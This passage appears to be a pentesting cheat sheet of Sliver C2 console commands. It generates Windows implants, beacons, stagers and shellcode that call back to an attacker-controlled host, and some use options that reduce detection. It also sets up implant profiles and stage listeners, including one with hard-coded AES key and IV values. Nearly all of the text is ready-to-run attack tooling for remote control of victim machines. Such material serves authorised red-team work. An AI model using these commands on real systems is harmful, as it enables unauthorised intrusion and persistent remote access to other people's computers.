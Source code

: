 ```
sliver > generate --mtls <LHOST> --os windows --arch amd64 --format shellcode --disable-sgn --skip-symbols --name <NAME> --save /PATH/TO/BINARY/
sliver > generate --http <LHOST> --os windows --arch amd64 --format shellcode --skip-symbols --name <NAME> --save /PATH/TO/BINARY/ -G
sliver > generate stager --lhost <LHOST> --os windows --arch amd64 --format c --save /PATH/TO/BINARY/
sliver > generate beacon --mtls <LHOST> --os windows --save /PATH/TO/BINARY/
sliver > generate beacon --mtls <LHOST> --os windows --arch amd64 --save /PATH/TO/BINARY/
sliver > generate beacon --mtls <LHOST> --os windows --arch amd64 --format exe --save /PATH/TO/BINARY/
sliver > generate beacon --mtls <LHOST> --os windows --arch amd64 --format exe --disable-sgn --save /PATH/TO/BINARY/
sliver > generate beacon --mtls <LHOST> --os windows --arch amd64 --format shared --save /PATH/TO/BINARY/
sliver > generate beacon --mtls <LHOST> --os windows --arch amd64 --format service --save /PATH/TO/BINARY/
sliver > generate beacon --mtls <LHOST> --os windows --arch amd64 --format shellcode --save /PATH/TO/BINARY/
sliver > generate beacon --mtls <LHOST> --os windows --arch amd64 --format exe --save /PATH/TO/BINARY/ --seconds 5 --jitter 3
sliver > generate beacon --mtls <LHOST>:<LPORT> --os windows --arch amd64 --format exe --save /PATH/TO/BINARY/ --seconds 5 --jitter 3
sliver > generate beacon --mtls <LHOST> --os windows --arch amd64 --format shellcode --disable-sgn --skip-symbols --name <NAME> --save /PATH/TO/BINARY/
sliver > generate beacon --http <LHOST> --os windows --arch amd64 --format shellcode --skip-symbols --name <NAME> --save /PATH/TO/BINARY/ -G
sliver > generate beacon --http <LHOST>?proxy=http://<LHOST>:8080,<LHOST>?driver=wininet --os windows --arch amd64 --format shellcode --seconds 30 --jitter 3 --name <NAME> --save /PATH/TO/BINARY/<FILE>.bin -G --skip-symbols
```

### Profiles, Listener and Stagers

> https://sliver.sh/docs

#### Profiles

```console
sliver > profiles new --mtls <LHOST>:<LPORT> --arch amd64 --format shellcode --skip-symbols <PROFILE>
sliver > profiles new beacon --mtls <LHOST>:<LPORT> --arch amd64 --format shellcode --skip-symbols <PROFILE>
```

#### Listener

```console
sliver > stage-listener --url tcp://<LHOST>:<LPORT> --profile <PROFILE>
```

##### Encrypted Listener

```console
sliver > stage-listener --url http://<LHOST>:<LPORT> --profile <PROFILE> --aes-encrypt-key D(G+KbPeShVmYq3t --aes-encrypt-iv 8y/B?E(G+KbPeShV
```
